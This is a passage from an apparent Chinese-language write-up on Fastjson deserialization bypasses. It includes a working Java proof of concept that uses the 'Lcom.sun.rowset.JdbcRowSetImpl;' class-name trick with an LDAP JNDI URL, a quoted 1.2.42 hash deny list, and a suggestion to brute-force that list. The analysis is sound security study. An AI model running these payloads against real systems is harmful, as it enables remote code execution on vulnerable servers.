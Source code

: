 可以发现: 

- 如果这个className是以`[`开头我们会去掉`[`进行加载

分析后发现采用`[xxxxxx` 进行解析会在 JSON 解析时就提前报错

- 如果这个className是以`L`开头`;`结尾，就会去掉开头和结尾进行加载 

而采用`Lxxxxxx;` 则不会报错, 但是通过网上翻阅还是可以找到采用`[`的畸形payload, 简要概括原因为命令执行比解析错误先来(添加换行或空格可以避免语法错误是可以说得通的)

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

/**
 * fastjson 1.2.25-1.2.41
 */
public class fastjson1225
{
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
//        String payload = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"" +
//                "[{\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
//                "\"autoCommit\":true}]}";
//        String payload= "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"" +
//                "[{\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
//                "\"autoCommit\":true";
        String payload = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

## [1.2.42]哈希校验绕过

采用了hash校验

```
this.denyHashCodes = new long[]{-8720046426850100497L, -8109300701639721088L, -7966123100503199569L, -7766605818834748097L, -6835437086156813536L, -4837536971810737970L, -4082057040235125754L, -2364987994247679115L, -1872417015366588117L, -254670111376247151L, -190281065685395680L, 33238344207745342L, 313864100207897507L, 1203232727967308606L, 1502845958873959152L, 3547627781654598988L, 3730752432285826863L, 3794316665763266033L, 4147696707147271408L, 5347909877633654828L, 5450448828334921485L, 5751393439502795295L, 5944107969236155580L, 6742705432718011780L, 7179336928365889465L, 7442624256860549330L, 8838294710098435315L};
```

虽然说利用hash可以让我们不知道禁用了什么类，但是加密方式是有写`com.alibaba.fastjson.parser.ParserConfig#addDeny`中的`com.alibaba.fastjson.util.TypeUtils#fnv1a_64`，我们理论上可以遍历jar，字符串，类去碰撞得到这个hash的值。（因为常用的包是有限的） 
